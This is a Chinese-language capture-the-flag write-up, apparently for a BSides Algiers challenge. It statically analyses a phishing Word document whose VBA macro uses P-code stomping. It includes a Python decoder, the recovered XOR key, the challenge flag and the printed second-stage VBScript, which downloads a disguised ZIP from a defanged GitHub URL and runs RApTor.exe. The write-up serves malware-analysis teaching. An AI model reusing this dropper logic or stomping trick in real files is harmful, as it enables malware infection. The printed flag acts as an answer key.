

# APT213 - There's a phish in the mailbox

## 题目简述

题目提供了一封定向钓鱼邮件的截图，以及一个用口令 `iunderstandtherisk` 保护的附件包。邮件伪装成 CTO 误发给市场员工 John 的“2021 基础设施迁移计划”，利用“高度机密、原本发给 CISO、请勿转发给市场部门”等措辞诱导收件人打开 Word 文档。



附件虽然以 `.doc` 结尾，文件头却是 `PK`，实际是包含 `word/vbaProject.bin` 的 OOXML 包。恶意宏使用了 VBA stomping：可见源码与 Office 真正执行的 P-code 不一致。目标是静态恢复双阶段脚本、第一段 flag 和第二阶段样本地址；核心是恶意文档行为分析，因此归入恶意软件方向。

## 解题过程

只在隔离环境中解压，不要用 Office 打开文档或启用宏。检查 OOXML 内部结构后，可以从 `vbaProject.bin` 提取模块 `ThisDocument`、窗体 `F` 和模块 `A`。窗体中的隐藏字段 `T` 保存了以点号分隔的长字符串，字段 `S` 的值为 `.`。

模块 `A` 的 `Cheese` 函数每四个十六进制字符为一组，把后两个字符表示的数减去前两个字符表示的数，再把差值转成字符。其核心可写成：

```python
def cheese(encoded):
    result = []
    for offset in range(0, len(encoded), 4):
        left = int(encoded[offset:offset + 2], 16)
        right = int(encoded[offset + 2:offset + 4], 16)
        result.append(chr(right - left))
    return "".join(result)
```

只看 VBA 源码会得到错误路径，因为被 stomp 的 P-code 改了两个决定性值：

- `Burger` 取 `Split(F.T.Text, F.S.Text)(1)`，而不是源码中的索引 `2`；
- 重复 XOR 的密钥在 P-code 中逐字符构造为 `sN34ky-f3ne3cc@2020#`。

P-code 仍保留 `Cheese` 与 `Fennec` 的主体。前者恢复出 `COMPUTERNAME`、目标主机名 `SNAIL-CORP`、`TEMP`、`.vbs` 和 `wscript ` 等字符串；宏只在当前计算机名等于 `SNAIL-CORP` 时投递脚本。后者用上述密钥循环异或 `Cheese(parts[1])` 的结果，从而恢复第二阶段 VBScript。

恢复出的关键逻辑如下；恶意样本 URL 在题解中已主动失效化，原脚本使用的是对应的 `https` GitHub Raw 地址：

```vb
Sub Main
    Dim wsh: Set wsh = WScript.CreateObject("WScript.Shell")
    Dim tmp: tmp = wsh.ExpandEnvironmentStrings("%TEMP%")
    Dim zip: zip = "fox.zip"
    Dim dst: dst = tmp & "\RApTor.exe"
    'shellmates{tr1ck_4l1_th3_t0Ols_h4cK_41l_tH3_th1Ngs_st0mP_0n_uR_f@ce!}
    Dim url
    url = "hxxps://github[.]com/noxiousfox/sahara-warrior/raw/main/fennec[.]bmp"
    DL url, tmp & "\" & zip
    UZ tmp & "\" & zip, tmp
    wsh.Run dst
End Sub
```

`DL` 使用 `MSXML2.ServerXMLHTTP.6.0` 和 `ADODB.Stream` 下载响应体，`UZ` 通过 `Shell.Application.NameSpace(...).CopyHere` 解压。远端文件名虽然是 `fennec.bmp`，内容实际是 ZIP；宏把它保存为 `fox.zip`，解压出 `RApTor.exe` 后执行。第一题 flag 就位于 VBScript 注释中：

```text
shellmates{tr1ck_4l1_th3_t0Ols_h4cK_41l_tH3_th1Ngs_st0mP_0n_uR_f@ce!}
```

这条双阶段行为也与出题人提交时的[官方场景说明](https://github.com/Shellmates/BSides-Algiers-2k21-CTF-Quals/pull/11)一致：宏先落地 VBScript，再由 VBScript 下载并启动真正的恶意程序。正文已经保留了该说明中影响解题的全部机制，链接仅用于核对原始出处。

## 方法总结

本题最重要的判断是“源码不是最终执行真相”。当宏分析结果缺少自动执行入口、变量索引不合逻辑，或源码与行为提示矛盾时，应检查 VBA P-code 与源代码是否发生 stomping；仅运行字符串扫描或只读 `olevba` 的源码输出可能漏掉关键常量。

可复用的静态分析顺序是：确认真实容器格式，提取 `vbaProject.bin`，分别比较源码和 P-code，解析窗体隐藏字段，重建自定义解码与循环 XOR，最后审计恢复出的脚本而不执行它。下载地址、落地文件名、目标主机限制和第二阶段启动方式都应写进证据链，不能只记录最终 flag。
